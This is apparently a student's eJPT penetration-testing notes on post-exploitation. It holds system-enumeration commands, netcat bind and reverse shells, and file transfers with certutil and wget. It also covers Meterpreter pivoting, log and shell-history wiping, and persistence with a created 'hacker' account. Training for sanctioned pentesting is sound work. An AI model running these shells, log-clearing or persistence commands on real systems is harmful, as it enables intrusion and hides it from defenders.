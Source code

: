 # eJPT Notes

## Information gathering

## Enumeration

## Exploitation

## Post-Exploitation

### Metasploit Post-Exploitation Modules

Windows:
- 

Also, automate postexploitation with JAWS:
Jaws Enum:
`upload jaws-enum.ps1`
`powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-enum.txt`
`download JAWS-enum.txt`

Linux:

Also, automate post-exploitation with `linenum.sh`

### Post-Exploitation on a regular shell

On Windows:
`ipconfig`
`ipconfig /all`
`route print`
`arp -a`
`netstat -ano`
Processes:
`ps`
`net start`
`wmic service list brief`
`tasklist /SVC`
`schtaskts /query /fo LIST`

On Linux:
Enumerating system info:
- `cat /etc/issue`
- `cat /etc/*release`
- `uname -a`
- `lscpu`
- `df -h`
Users
- `groups root`
- `cat /etc/passwd`
- `groups`
- `who`
- `lastlog`
Network info:
in meterpreter:
- `ifconfig`
- `netstat`
- `route`
In bash:
- `ip a s`
- `cat /etc/networks`
- `cat /etc/hosts`
- `cat /etc/resolv.conf`
Processes & jobs
- `pgrep vsftpd`
- `ps`
- `cat /etc/cron*`

### Shells

- `netcat` utility
    - Set up listener (server): `nc -lnvp 9999`
    - Establish connection (client): `nc -nv <ip-listener> 9999`
    - send files: Listener: `nc.exe -lnvp 9999 > file.txt`
    - send the file `nc -nv <IP-listener> 9999 < file.txt`
- Bind shells
    - Listener (victim): `nc.exe -nlvp 9999 -e cmd.exe`
    - Attacker: `nc -nv <victim-ip> 9999`
    - If linux is victim: `nc -nlvp 9999 -e /bin/bash`
    - Attacker: `nc.exe -nv <ip> 9999`
- Reverse shells with `netcat`
    - Listener (attacker): `nc -lnvp 9999`
    - Victim: `nc.exe -nv <attacker-ip> 9999 -e cmd.exe`

- Upgrading shells to `meterpreter`
    - `sessions -u 1`
    - `post/multi/manage/shell_to_meterpreter`

- Upgrading to an interactive shell:
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
    - `perl -e 'exec "/bin/bash";'`
    - `/bin/bash -i`

### Transferring files to the target

Set up a web server:
- `python -m SimpleHTTPServer 80`
- `python3 -m http.server 80`
Download resources from that server:
- `certutil -urlcache -f http://<ip>/filename filename`
- `wget http://<ip>/filename`
- `curl http://<ip>/filename --output filename`

### Pivoting

On the meterpreter session:
`ipconfig`
`run autoroute -s 10.0.23.0/20`
`run autoroute -p` - show routes
`run arp_scanner -r 10.0.23.0/20`
`background`
`use auxiliary/scanner/portscan/tcp`

Port forwarding:
`portfwd add -l 9999 -p 80 -r <remotehost ip>`
`portfwd list`

### Clearing tracks

In Windows:
- On a `meterpreter` session: `clearev`
In Linux:
- Remove `/tmp/` directory
- `history -c`
- `cat /dev/null > ~/.bash_history`

### Persistence

`exploit/windows/local/persistence_service`

`run getgui -e -u hacker -p hacker_321`